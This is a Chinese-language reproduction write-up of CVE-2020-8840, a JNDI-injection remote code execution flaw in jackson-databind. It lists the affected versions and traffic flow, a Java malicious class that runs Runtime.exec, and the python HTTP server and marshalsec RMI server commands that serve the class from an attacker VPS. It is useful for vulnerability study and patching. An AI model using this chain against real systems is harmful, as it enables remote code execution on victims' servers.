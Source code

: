 #  CVE-2020-8840

## 概述 

jackson-databind 是隶属 FasterXML 项目组下的JSON处理库。

受影响版本的jackson-databind中由于缺少某些xbean-reflect/JNDI黑名单类，如org.apache.xbean.propertyeditor.JndiConverter，可导致攻击者使用JNDI注入的方式实现远程代码执行。

![](1.png)

## 影响版本

2.0.0 <= FasterXML jackson-databind Version <= 2.9.10.2

使用ldap和rmi配合JNDI注入对对jdk版本有一定的要求。

![](jndi-repair.jpg)


## 复现

与之前fastjson类似。

**漏洞利用链**：

**靶机-> RMI/LDAP 服务器 -> 恶意类HTTP服务器**

![](2.png)

![](3.png)

<br/>

#### 流量行为：

1.攻击者向靶机发送精心构造的poc

2.靶机接收到poc，假设靶机存在漏洞(未对class黑名单校验的靶机)，会向攻击者搭建的恶意RMI/LDAP服务器发送请求

3.调用远程恶意HTTP服务器上编译的恶意类资源，在靶机上执行任意命令(可能是在内存加载，未落地)

<br/>

在vps上，将编译好的恶意类TouchFile.class放在任意目录。 **根据靶机环境调整恶意类内容**

恶意类：

	import java.lang.Runtime;
	import java.lang.Process;
	
	public class TouchFile {
	    static {
	        try {
	            String[] commands={"calc.exe"};
	            Runtime.getRuntime().exec(commands);
	            
	        } catch (Exception e) {
	            // do nothing
	        }
	    }
	}

**恶意类最好用低版本jdk编译，据说1.6效果最佳,我用1.8编译的恶意类未加载成功，用1.7成功了,也可能跟我靶机java环境有关，我靶机的环境是jdk1.7**

在当前目录启动一个HTTP服务承载 恶意类，使恶意类可以被RMI/LDAP服务器访问。

	python -m SimpleHTTPServer 8000

启动 RMI 服务器

	java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer http://VPS:8000/#TouchFile 1099


向靶机发送 json 调用 恶意RMI
![](res.png)
